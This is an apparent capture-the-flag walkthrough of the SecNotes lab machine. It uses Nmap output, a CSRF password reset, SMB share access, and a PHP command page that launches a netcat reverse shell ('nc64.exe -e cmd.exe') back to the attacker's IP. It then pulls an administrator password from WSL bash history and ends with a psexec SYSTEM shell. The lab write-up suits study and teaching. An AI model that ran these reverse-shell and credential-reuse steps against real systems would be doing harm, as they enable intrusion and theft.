

`Box: Windows Medium`
### Index
1. [Box_Info](#Box_Info)
2. [Initial_Nmap](#Initial_Nmap)
3. [Initial_Web_Port_80](#Initial_Web_Port_80)
4. [CSRF_Password_Reset](#CSRF_Password_Reset)
5. [SMB_Access](#SMB_Access)
6. [Obtain_Reverse_Shell](#Obtain_Reverse_Shell)
7. [Privilege_Escalation](#Privilege_Escalation)
	1. [WinPeas_WSL_Enum](#WinPeas_WSL_Enum)
	2. [Getting_Admin_Shell_Impacket](#Getting_Admin_Shell_Impacket)

### Box_Info
```
SecNotes is a medium difficulty machine, which highlights the risks associated with weak password change mechanisms, lack of CSRF protection and insufficient validation of user input. It also teaches about Windows Subsystem for Linux enumeration.
```
### Initial_Nmap
```
# nmap -p- --min-rate=1000 -Pn -T4 -sC -sV secnotes.htb                              
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
|_http-server-header: Microsoft-IIS/10.0
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows
```
### Initial_Web_Port_80


I tried few of the credentials but nothing works. So I signed up with the user `asdf` and password `asdf123`.

Identify one user `Tyler`.
### CSRF_Password_Reset
So the one way to to change tyler's password is to click on "Contact Us" and send password reset link. There's something in the backend that access this link. Let's just verify this once.

Sending test CSRF payload and started a python server on our end.
```
┌──(ringbuffer㉿kali)-[~/Downloads/SecNotes.htb]
└─$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.97 - - [09/Dec/2024 23:42:00] "GET /csrf_poc.html HTTP/1.1" 200 -
```
We got the hit from the Box (10.10.10.97)

Let's Capture the `Change Password` HTTP Post request
```
POST /change_pass.php HTTP/1.1
Host: secnotes.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: http://secnotes.htb
Connection: keep-alive
Referer: http://secnotes.htb/change_pass.php
Cookie: PHPSESSID=34ldt1oc1uaso1s4m0o7v513gu
Upgrade-Insecure-Requests: 1

password=asdf321&confirm_password=asdf321&submit=submit
```
Change the `HTTP Request Method` to `GET` and send it to verify that the `GET` method works.
```
GET /change_pass.php?password=asdf321&confirm_password=asdf321&submit=submit HTTP/1.1
Host: secnotes.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Origin: http://secnotes.htb
Connection: keep-alive
Referer: http://secnotes.htb/change_pass.php
Cookie: PHPSESSID=34ldt1oc1uaso1s4m0o7v513gu
Upgrade-Insecure-Requests: 1
```

```
HTTP/1.1 302 Found
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Location: home.php
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.2.7
Date: Tue, 10 Dec 2024 04:32:34 GMT
Content-Length: 1284
```
Right click and `Copy URL` and send this to the user `tyler` via the `Contact Us` Page.
`http://secnotes.htb/change_pass.php?password=asdf321&confirm_password=asdf321&submit=submit`

Now you should be able to login with `tyler` account and password `asdf321`


Once logged in, it reveals the SMB password for the user tyler.
### SQL_Injection
So in the above method, We sign up and created an account `asdf` than reset the tyler's password using the `Contact Us` Page. however, There;s another way to grab the tyler's SMB password without even sending any links through the Contact Us page. We can create a new account with the following name.


Now Login with the above Username and you will see the SMB Login Details.

### SMB_Access
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/SecNotes.htb]
└─# netexec smb 10.10.10.97 -u 'tyler' -p '92g!mA8BGjOirkL%OG*&' --shares
SMB         10.10.10.97     445    SECNOTES         [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
SMB         10.10.10.97     445    SECNOTES         [+] SECNOTES\tyler:92g!mA8BGjOirkL%OG*& 
SMB         10.10.10.97     445    SECNOTES         [*] Enumerated shares
SMB         10.10.10.97     445    SECNOTES         Share           Permissions     Remark
SMB         10.10.10.97     445    SECNOTES         -----           -----------     ------
SMB         10.10.10.97     445    SECNOTES         ADMIN$                          Remote Admin
SMB         10.10.10.97     445    SECNOTES         C$                              Default share
SMB         10.10.10.97     445    SECNOTES         IPC$                            Remote IPC
SMB         10.10.10.97     445    SECNOTES         new-site        READ,WRITE 
```
We got the share access. "New-Site" is the share for which we have READ, WRITE access.

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/SecNotes.htb]
└─# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Dec  9 23:54:07 2024
  ..                                  D        0  Mon Dec  9 23:54:07 2024
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018

    7736063 blocks of size 4096. 3397387 blocks available
```
Upon looking at the content, it has `iisstart.htm` page which is point to port 8808 in the above nmap results.
### Obtain_Reverse_Shell
putting simple php_cmd.php reverse shell and accessing it through `http://secnotes.htb:8808/php_cmd.php?nc64.exe+-e+cmd.exe+10.10.14.4+4444`

First Let's upload nc64.exe and php_cmd.php on the smb share
```
└─# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
Try "help" to get a list of possible commands.
smb: \> put php
php/                   php_cmd.php            php-reverse-shell.php  
smb: \> put php_cmd.php 
putting file php_cmd.php as \php_cmd.php (1.5 kb/s) (average 1.5 kb/s)
smb: \> put nc64.exe 
putting file nc64.exe as \nc64.exe (257.0 kb/s) (average 162.5 kb/s)
smb: \>
```
starting the NetCat Listener and accessing `http://secnotes.htb:8808/php_cmd.php?cmd=nc64.exe+-e+cmd.exe+10.10.14.4+4444`
```
# nc -lvnp 4444                                                        
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.97] 52405
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
whoami
secnotes\tyler
```
Got the user flag.
### Privilege_Escalation
```
C:\tmp>curl -o winPEASx64.exe http://10.10.14.4/winPEASx64.exe
curl -o winPEASx64.exe http://10.10.14.4/winPEASx64.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 2331k  100 2331k    0     0  2331k      0  0:00:01 --:--:--  0:00:01 4262k

C:\tmp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\tmp

12/09/2024  09:22 PM    <DIR>          .
12/09/2024  09:22 PM    <DIR>          ..
12/09/2024  09:22 PM         2,387,456 winPEASx64.exe
               1 File(s)      2,387,456 bytes
               2 Dir(s)  13,911,941,120 bytes free
```
###### WinPeas_WSL_Enum
```
����������͹ Looking for Linux shells/distributions - wsl.exe, bash.exe
    C:\Windows\System32\wsl.exe
    C:\Windows\System32\bash.exe

    Found installed WSL distribution(s) - listed below
    Run linpeas.sh in your WSL distribution(s) home folder(s).

    Distribution:      "Ubuntu-18.04"
    Root directory:    "C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs"
    Run command:       wsl.exe --distribution "Ubuntu-18.04"
```
Extracting Password for the Admin User
```
C:\inetpub\new-site>cd C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs

C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs>cd root

C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root>dir
 Directory of C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root

06/22/2018  01:44 PM    <DIR>          .
06/22/2018  01:44 PM    <DIR>          ..
06/22/2018  02:09 AM             3,112 .bashrc
06/22/2018  01:41 PM               398 .bash_history
06/21/2018  05:00 PM               148 .profile
06/22/2018  01:56 AM    <DIR>          filesystem
               3 File(s)          3,658 bytes
               3 Dir(s)  13,901,787,136 bytes free

C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root>type .bash_history
type .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history
exit

```

###### Getting_Admin_Shell_Impacket
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/SecNotes.htb]
└─# impacket-psexec 'administrator':'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.97.....
[*] Found writable share ADMIN$
[*] Uploading file kpwgZPaV.exe
[*] Opening SVCManager on 10.10.10.97.....
[*] Creating service HoBo on 10.10.10.97.....
[*] Starting service HoBo.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> whoami
nt authority\system
```

Get your Root Flag